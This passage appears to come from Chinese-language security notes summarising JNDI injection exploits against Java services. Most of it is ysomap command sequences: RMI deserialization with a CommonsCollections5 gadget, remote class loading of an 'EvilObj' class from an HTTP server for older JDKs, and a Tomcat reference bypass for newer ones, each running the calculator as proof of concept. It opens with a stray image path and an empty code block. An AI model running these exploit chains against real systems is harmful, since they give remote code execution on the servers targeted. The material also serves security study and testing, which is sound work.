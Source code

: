 ```java
```
LDAP 反序列化并未受到 jdk 版本限制，但需要目标含有反序列化利用链。

# EXP 汇总
## JNDI RMI 反序列化（通用
使用 ysomap 中的 JRMPListener：
```bash
use exploit RMIListener
use payload CommonsCollections5
use bullet TransformerWithTemplatesImplBullet
set lport 12345
set args "mate-calc"
run
```
## JNDI RMI Reference（jdk < 8u121）
使用 ysomap 中的 RMIListener：
```bash
use exploit SimpleHTTPServer
use payload EvilFileWrapper
use bullet ClassWithEvilConstructor
set lport 8082
set path /EvilObj.class
set classname EvilObj
set body "mate-calc"
set type class
run

use exploit RMIListener
use payload JNDIRefWrapper
use bullet JNDIRefBullet
#set lhost 127.0.0.1
set lport 1099
#set objectName EvilObj
set factoryName EvilObj
set factoryURL http://127.0.0.1:8082/
run
```

## JNDI RMI Reference 远程类加载（高版本 jdk）
新版本 Tomcat 失效。

使用 RMIListener
```bash
use exploit RMIListener
use payload JNDIRefWrapper
use bullet TomcatRefBullet
set lport 1099
set type cmd
set body "mate-calc"
run
```
